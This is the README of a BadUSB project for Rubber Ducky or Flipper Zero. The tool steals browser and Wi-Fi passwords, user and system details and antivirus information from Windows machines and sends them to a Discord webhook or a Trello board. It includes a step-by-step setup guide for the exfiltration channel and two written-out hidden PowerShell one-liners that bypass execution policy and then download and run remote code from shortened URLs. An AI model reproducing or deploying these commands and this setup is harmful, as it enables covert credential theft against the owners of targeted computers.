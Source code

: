 # W1ns1d3r_Tr3ll0 BadUSB

## Description

This project is a BadUSB mix of some rubber ducky scripts.

- **Version:** [1.0]
- **Average Time :** 
  - W1ns1d3r_f4st_Tr3ll0 : 3 Secs
  - W1ns1d3r_st4gg3d_Tr3ll0 : 30 secs
- **Target:** Windows 10/11 (7/8 not tested)
- **Supported Layout keyboard:** US/FR/DE
- **Author:** [b1g_ph4rm4](https://github.com/Gvte-Kali/BadStuffHosting)

```
______________________________________________________________________________________________

 888      d888                             888          d8888                            d8888  
 888     d8888                             888         d8P888                           d8P888  
 888       888                             888        d8P 888                          d8P 888  
 88888b.   888   .d88b.           88888b.  88888b.   d8P  888  888d888 88888b.d88b.   d8P  888  
 888 "88b  888  d88P"88b          888 "88b 888 "88b d88   888  888P"   888 "888 "88b d88   888  
 888  888  888  888  888          888  888 888  888 8888888888 888     888  888  888 8888888888 
 888 d88P  888  Y88b 888          888 d88P 888  888       888  888     888  888  888       888  
 88888P" 8888888 "Y88888 88888888 88888P"  888  888       888  888     888  888  888       888  
                     888          888                                                           
                Y8b d88P          888
                 "Y88P"           888                                                           
______________________________________________________________________________________________
```

- **Credits:**
  - [![blobs0](https://img.shields.io/badge/blobs0-Ultimate%20Flipper%20Grabber-brightgreen)](https://github.com/blobs0/Ultimate-Flipper-Grabber)
  - [![I-am-jakoby](https://img.shields.io/badge/I--am--jakoby-Discord%20Webhooks%20Functions-blue)](https://github.com/I-am-jakoby)
  - [![UNCOV3R3D](https://img.shields.io/badge/UNCOV3R3D-Statut-orange)](https://github.com/UNC0V3R3D)
  - 7h30th3r0n3
  - moosehadley

## Features 

**W1ns1d3r_st4gg3d_Tr3ll0:** 
- The informations the script pulls :
    - Stage 1 :
        - Web browser passwords
    - Stage 2 :
        - Antivirus software and version
        - User informations
        - System informations
        - Wifi passwords
- Post everything in your discord webhook
- Notes : The program works on the C:\temp directory and deletes it when the files are uploaded.
  
**W1ns1d3r_F4st_Tr3ll0** 
- Don't get the administrative privileges on target.
- Sets the working directory to C:\temp.
- The informations the script pulls :
    - Stage 2 :
        - Antivirus software and version
        - Hardware informations
        - System informations
        - Wifi passwords
- Post everything in your discord webhook
- Notes : The program works on the C:\temp directory and deletes it when the files are uploaded.
  
## How to use
- To get the Trello API working with your scripts, you'll need to get some configuration before using it : 
  - **The ID of the list you want to post into --> Step 1.6**
  - **An API Key --> Step 1.4.3**
  - **A Token --> Step 1.4.5**

- **Setup Guide :**
  - **1 - Creating account and setup informations**
    - 1.1 - Create an account on this link : https://id.atlassian.com/login?application=trello

    - 1.2 - Go to your boards, this url should look like this : https://trello.com/u/yourusername/boards

    - 1.3 - Create a board

    - 1.4 - Go on https://trello.com/power-ups/admin and create a new power-up.
      - 1.4.1 - On creation, the only useful thing is to locate it into the worksapce where your board was created ( should only be one workspace if it's a new account ).
      - 1.4.2 - Go to your newly created Power-UP. Now go to API Key and click the "generate API Key".
      - 1.4.3 - **!! VERY IMPORTANT !!** You need to note somewhere the API Key. 
      - 1.4.4 - **!! VERY IMPORTANT !!**  On the API Key page, click on the token button, and authorize Trello to use your account.
      - 1.4.5 - **!! VERY IMPORTANT !!** You need to note the token, should look like *ATTAxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx*.
      - 1.4.6 - Go to your Power-UP *Capabilities* menu and make sure that it gets every authorization.

    - 1.5 - Go on the board you created, the url should look like this : "https://trello.com/b/xxxxxxx/name_of_your_board"

    - 1.6 - Use the idlist script : 
      - 1.6.1 - For linux users, go for the idlist.sh
      - 1.6.2 - For windows users, go for the idlist.ps1

  - **2 - Once you have the idlist, the API key and the token, you need to modify the script or the [.txt] file**
    - 2.1 - Modifying the script, you need to add this into it ( Upload-Trello function ): 
      - $idList = "THE_ID_LIST"
      - $key = "YOUR_API_KEY_FROM"
      - $token = "YOUR_TOKEN_FROM"

    - 2.2 - Modifying the [.txt] file : 
      - ```powershell -w h -NoP -Ep Bypass $token='';$key='';$idList='';irm https://shorturl.at/wBFLV | iex``` for W1ns1d3r_f4st_Tr3ll0 ( line 23 )
      - ```powershell -w h -NoP -Ep Bypass $token='';$key='';$idList='';irm https://shorturl.at/gpvF5 | iex``` for W1ns1d3r_st4gg3d_Tr3ll0 ( line 53 )

    - **3 - Put the modified [.txt] file into your Rubber Ducky or Flipper Zero**

    - **4 - Enjoy !**

# Releases

- **Version [1.0]** - *10/02/2024*
